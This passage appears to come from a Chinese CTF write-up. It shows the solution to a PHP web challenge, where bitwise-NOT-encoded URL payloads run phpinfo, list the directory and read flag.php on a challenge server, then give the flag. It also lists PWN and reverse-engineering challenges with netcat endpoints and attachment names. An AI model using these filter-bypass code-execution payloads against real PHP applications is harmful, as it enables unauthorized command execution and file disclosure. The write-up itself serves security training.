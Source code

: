
phpinfo()
http://121.36.74.163/?code=(~%8F%97%8F%96%91%99%90)()

print_r(scandir(./))
http://121.36.74.163/?code=(~%8f%8d%96%91%8b%a0%8d)((~%8c%9c%9e%91%9b%96%8d)(~%d1%d0))

print_r(file_get_contents(flag.php))
http://121.36.74.163/?code=(~%8f%8d%96%91%8b%a0%8d)((~%99%96%93%9a%a0%98%9a%8b%a0%9c%90%91%8b%9a%91%8b%8c)(~%99%93%9e%98%d1%8f%97%8f))

```
flag{ecee9b5f24f8aede87cdda995fed079c}
```

<br/>

## PWN

### of（solved:91,181pt）

> nc 121.36.74.70 9999

附件下载：02f2dd3e01f3482096ceeec583b6f475.zip

<br/>

### pwnme（solved:73,217pt）

> 一个简单的pwn题目。
> nc 121.36.58.215 1337

附件下载：d7c87223494040518100e090624d213a.zip

<br/>

### twice（solved:162,110pt）

> nc 121.36.59.116 9999

附件下载：754cf5ffa4fe4c6e9e1686e804736a0e.zip

<br/>

## REVERSE

### rev（solved:67,232pt）

> 本道题目flag提交格式为：ctf{XXXX}

附件下载：68f17df6f0c6402ea0172d016434922d.zip

<br/>

### nop（solved:138,127pt）

附件下载：6035d22c80c1433a8f06b5333630ff89.zip

<br/>

### ManageCode（solved:44,317pt）

附件下载：6a1864aae4774faeb3260ed311149a2c.zip
